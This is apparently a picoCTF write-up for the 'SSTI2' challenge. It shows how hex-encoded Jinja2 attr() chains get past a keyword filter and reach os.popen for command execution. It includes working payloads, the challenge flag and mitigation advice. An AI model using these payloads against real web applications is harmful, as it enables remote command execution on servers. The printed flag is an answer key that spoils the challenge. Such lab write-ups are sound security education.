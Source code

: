 ## SSTI2

In this challenge, it goes beyond SSTI1 as there is a filtration that blocks special characters.

I started by testing basic Jinja2 expressions to confirm the SSTI vulnerability:

- `{{ 7*7 }} → 49`: This confirmed that Jinja2 was evaluating expressions, indicating an SSTI vulnerability.  
- `{{ ''.__class__ }} → "Stop trying to break me >:("`: This revealed sanitization blocking dangerous attributes like `__class__`.  
- `{{ config }} →` Leaked the Flask configuration, confirming a Flask/Jinja2 environment.  

The sanitization blocked keywords like `__class__`, `__mro__`, and `__subclasses__`, and direct attribute access (e.g., `''['__class__']`) was also filtered.

---

So I tried this payload:

```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

Which is equivalent to:

```jinja
{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('ls')|attr('read')()}}
```

---

### Step-by-step Execution

**Accessing the Flask Request Object:**  
`request` refers to Flask’s request object, which allows interaction with the current HTTP request.

**Accessing the Application Context:**  
`request|attr('application')` retrieves the Flask application instance from the request object.

**Navigating to Global Variables:**  
`attr('__globals__')` accesses the global variables available within the Flask application.

**Retrieving Built-in Functions:**  
`attr('__getitem__')('__builtins__')` extracts the built-in functions available in Python.

**Accessing Python’s Import Function:**  
`attr('__getitem__')('__import__')('os')` dynamically imports the `os` module, which is essential for executing system commands.

**Executing a Shell Command (ls):**  
`attr('popen')('ls')` uses `os.popen` to run the `ls` command in the system shell.

**Reading the Output:**  
`attr('read')()` retrieves and returns the output of the executed command.

---

![firstFinding](https://github.com/user-attachments/assets/42990a9f-8463-4e13-8a2f-1ccfbcac9923)

Then I tried to read the flag directly:

```jinja
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat fla*')|attr('read')()}}
```

---

![flag](https://github.com/user-attachments/assets/b26d58c8-2cf5-4952-8972-037ad8ba72b4)

**flag:** `picoCTF{sst1_f1lt3r_byp4ss_8b534b82}`

---



# 💡 **Lessons Learned in SSTI Exploitation**

### 🔍 **Understanding SSTI Bypass Techniques**
- Even with filtering mechanisms, **SSTI vulnerabilities can still be exploited** by creatively accessing restricted functions.
- **Hex encoding (`\x5f` for `_`)** is a powerful method for bypassing special character restrictions.
- The **`attr()` filter allows chained access** without dots or brackets, helping evade input sanitization.
- Deep knowledge of **Flask/Jinja2 internals** (`request`, `application`, `__globals__`, `__builtins__`) is key to advanced exploitation.
- If common paths are blocked (e.g., `__class__`), reconstruct the attack chain **indirectly**, such as by leveraging `__import__`.

---

### 🔐 **Preventing SSTI Attacks**
> **Filtering alone is NOT enough!** Proper sandboxing and secure coding practices are essential to mitigate SSTI risks.

✔ **Avoid rendering untrusted input** via `render_template_string()`—this is a common entry point for SSTI.  
✔ **Use safer template engines** that separate logic from content, like **Mustache** or **Jinja2 with sandboxing enabled**.  
✔ **Apply Jinja2’s sandbox environment** (`jinja2.sandbox.SandboxedEnvironment`) to restrict access to dangerous Python internals.  
✔ **Never pass raw user input directly into templates**—always validate or whitelist expected values before rendering.  
✔ For **high-risk applications**, consider **rendering templates server-side only**, without exposing rendering functionality to users.


  
  
